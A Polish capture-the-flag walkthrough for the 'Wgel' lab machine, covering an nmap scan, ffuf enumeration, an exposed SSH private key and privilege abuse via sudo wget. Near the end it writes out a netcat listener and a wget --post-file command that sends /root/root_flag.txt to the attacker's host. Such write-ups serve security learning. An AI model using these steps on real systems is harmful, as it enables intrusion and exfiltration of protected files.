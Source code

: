 # Wgel

IP=10.10.45.81

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.45.81
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-07 12:07 EDT
Nmap scan report for 10.10.45.81
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds
```

Zostały wykryte dwa porty.

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Strona przypomina domyślną stronę Apache'a, jednak w źródle znajdujemy ciekawą notkę z nazwą użytkownika:

![Jessie](img/Jessie.JPG)

```
jessie
```

Przechodzimy do enumeracji katalogów przy pomocy narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.45.81/FUZZ -c -recursion
```

![Ffuf](img/Ffuf.JPG)

W jednym z katalogów znajdujemy prywatny klucz RSA:

![Rsa](img/Rsa.JPG)

Widzimy, że nie jest on zaszyfrowany, dlatego nie ma potrzeby łamania hasła przy użyciu narzędzia John The Ripper:

![Key](img/Key.JPG)

### Port 22

Zapisujemy klucz w pliku, nadajemy mu odpowiednie uprawnienia i logujemy się do serwisu SSH:

![SSH](img/SSH.JPG)

Odczytujemy pierwszą flagę z pliku user_flag.txt:

![Flag1](img/Flag1.JPG)

## Zwiększenie poziomu uprawnień

Sprawdzamy jakie uprawnienia ma użytkownik jessie komendą sudo -l:

![Sudo](img/Sudo.JPG)

Próbujemy wykorzystać [exploit'a](https://gtfobins.github.io/gtfobins/wget/), aby zyskać uprawnienia root'a, jednak bezskutecznie:

![Wget](img/Wget.JPG)

Spróbujmy zatem odczytać drugą flagę bez uprawnień root'a. W tym celu przesyłamy zawartość pliku root_flag.txt na naszą maszynę za pomocą poniższych komend:

```
nc -lvnp [PORT]
```

![Nc](img/Nc.JPG)


```
sudo /usr/bin/wget --post-file=/root/root_flag.txt [IP]:[PORT]
```

![Get](img/Get.JPG)

Odczytujemy drugą flagę:

![Flag2](img/Flag2.JPG)

Do zobaczenia na kolejnych CTF-ach!
